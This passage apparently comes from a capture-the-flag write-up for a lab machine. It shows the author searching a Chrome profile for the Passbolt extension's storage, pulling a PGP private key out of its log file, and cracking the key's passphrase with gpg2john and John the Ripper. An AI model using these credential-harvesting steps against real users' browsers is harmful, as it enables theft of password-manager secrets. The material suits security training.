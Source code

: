 - Let's find the `passbolt` extension
```
eddie@bolt:~/.config/google-chrome/Default/Extensions$ grep -ir passbolt | cut -d'/' -f1 | uniq
didegimhafipceonhjepacocaffmoppf
```

- Now let's look for key
```
eddie@bolt:~/.config/google-chrome/Default$ grep -nr "didegimhafipceonhjepacocaffmoppf" . | cut -d'/' -f2 | uniq
Favicons matches
Preferences:1:{"account_id_migration_state":2,"account_tracker_service_last_update":"13258762424334951","alternate_error_pages":{"backup":true},"announcement_notification_service_first_run_time":"13258762424167263","autocomplete":{"retention_policy_last_version":88},"autofill":{"orphan_rows_removed":true},"browser":{"has_seen_welcome_page":true,"window_placement":{"bottom":1045,"left":429,"maximized":true,"right":1239,"top":39,"work_area_bottom":1200,"work_area_left":72,"work_area_right":1920,"work_area_top":27}},"countryid_at_install":21843,"custom_links":{"initialized":true,"list":[{"isMostVisited":true,"title":"Passbolt","url":"https:
History Provider Cache matches
DownloadMetadata matches
History matches
shared_proto_db
Local Extension Settings
Sessions
```
```
eddie@bolt:~/.config/google-chrome/Default$ grep -n "PRIVATE" "Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log"
Binary file Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log matches
```

- We found a key inside using `strings "Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log | less`

![](./images/22.png)

- Let's crack it
```
└─$ gpg2john priv.key > priv.key.hash

File priv.key
```
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt priv.key.hash            
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 16777216 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 8 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:04:00 0.08% (ETA: 2023-09-30 02:25) 0g/s 60.41p/s 60.41c/s 60.41C/s teamoj..taztaz
0g 0:00:04:03 0.08% (ETA: 2023-09-30 02:22) 0g/s 60.42p/s 60.42c/s 60.42C/s langlang..lamont1
merrychristmas   (Eddie Johnson)     
1g 0:00:11:49 DONE (2023-09-26 19:07) 0.001409g/s 60.39p/s 60.39c/s 60.39C/s merrychristmas..menudo
```
